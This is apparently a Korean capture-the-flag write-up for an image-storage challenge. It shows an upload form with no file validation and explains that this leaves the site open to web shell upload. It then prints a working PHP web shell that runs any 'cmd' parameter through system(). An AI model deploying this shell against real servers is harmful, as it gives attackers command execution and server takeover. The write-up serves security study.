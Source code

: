 ```php
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Image Storage</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="/list.php">List</a></li>
            <li><a href="/upload.php">Upload</a></li>
          </ul>
        </div><!--/.nav-collapse -->
      </div>
    </nav><br/><br/><br/>
    <div class="container">
      <form enctype='multipart/form-data' method="POST">
        <div class="form-group">
          <label for="InputFile">파일 업로드</label>
          <input type="file" id="InputFile" name="file">
        </div>
        <input type="submit" class="btn btn-default" value="Upload">
      </form>
    </div> 
</body>
</html>
```
* upload.php에서 업로드할 파일에 대해 어떠한 검사도 수행하지 않음 **→ 웹 셸 업로드 공격**에 취약함 (File Upload Vulnerability)
	- .php 확장자를 가지는 웹 셸 파일을 작성하고 업로드한 후 해당 파일의 경로로 방문하면 서버의 셸을 손쉽게 획득할 수 있음
		+ ‼️ ***CGI에 의해 해당 코드를 실행하게 만들기 위해선 <U>작성한 php 파일은 GET 요청을 보낼 수 있어야 함***
  		+ 저장 경로는 업로드가 성공적으로 이뤄진다면 화면에 ```Stored in: /uploads/[filename]``` 형식으로 출력됨

<br/><br/>

## 문제 풀이 (익스플로잇)
1. php 웹 셸 파일(image_storage_exploit.php) 파일을 다음과 같이 작성함
    ```php
    <html>
	  <body>
		<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
			<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
			<input type="SUBMIT" value="Execute">
		</form>
		<pre>
			<?php
				if (isset($_GET['cmd'])) {
					system($_GET['cmd']); // php의 system 함수: 전달된 인자(text 타입의 <input> 태그에서 이용자의 입력을 받아옴, cmd)를 셸 프로그램에 전달해 명령어를 실행함 [Command Injection 참고]
				}
			?>
		</pre>
	  </body>
    </html>
    ```

